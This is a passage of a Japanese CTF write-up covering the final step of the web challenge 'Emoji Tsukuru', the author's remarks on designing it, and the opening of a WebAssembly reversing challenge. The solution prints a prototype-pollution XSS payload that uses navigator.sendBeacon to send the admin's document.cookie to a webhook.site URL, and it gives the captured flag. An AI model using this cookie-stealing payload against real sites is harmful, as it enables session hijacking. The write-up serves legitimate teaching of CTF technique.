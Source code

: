 ### フラグを得る
adminのCookieを盗み出しましょう。DevToolsで以下のJavaScriptコードを実行しておき、`Share width admin!` を押すとadminにペイロードを含んだURLを共有するようにします。

```javascript
async function onSubmit(token) {
  const button = document.getElementById('report');

  const result = await (await fetch('/report', {
    method: 'POST',
    headers: {
      'Content-Type': 'application/json'
    },
    body: JSON.stringify({
      texts: `a.constructor.prototype.srcdoc=<script>navigator.sendBeacon('https://webhook.site/…',document.cookie)</script>`,
      token
    })
  })).text();
  button.textContent = result;
}
```

`Share width admin!` を押すと、Webhook.siteに以下のようなHTTPリクエストが飛んできました。これでフラグが得られました。

![03.png](../images/2021-12-24_emoji3.png)

```
HarekazeCTF{pr0t0type_p0llut10n_1s_0ne_0f_my_f4v0r1te_vulner4b1l1t1es}
```

---

Webでボス問が欲しいなあと思って作った問題です。5チームぐらいは解くだろうと予想していたのですが、思いっきり外れました。各チームがどこらへんまで到達していたのかが気になるところです。

はじめはCSPの追加やらDOM Clobbering要素の追加やら、Osoraku Secure Noteに少し手を加えたような感じで作っていたのですが、どうもうまくいかずボツになりました。Kitto Secure Noteという問題名まで決めていたのに…。ということで、問題提出の締切数時間前から大急ぎで作り始めて出来上がったのがEmoji Tsukuruです。

## [Rev 365] Let's read wasm (5 solves)
> 文字列を入力すると、それがフラグかどうかチェックしてくれるアプリケーションを作りました。WebAssembly製です。
> 
> ---
> 
> I made an application that checks whether an input is the flag or not. It is made with WebAssembly.

添付ファイルとして `module.wasm` というWebAssemblyのバイナリと、それを読み込んで実行する `index.html` が与えられています。PHPであれば `php -S localhost:8000`、Pythonであれば `python -m http.server` のようなコマンドで適当にWebサーバを立てて開いてみると、以下のようにシンプルな入力フォームが表示されました。
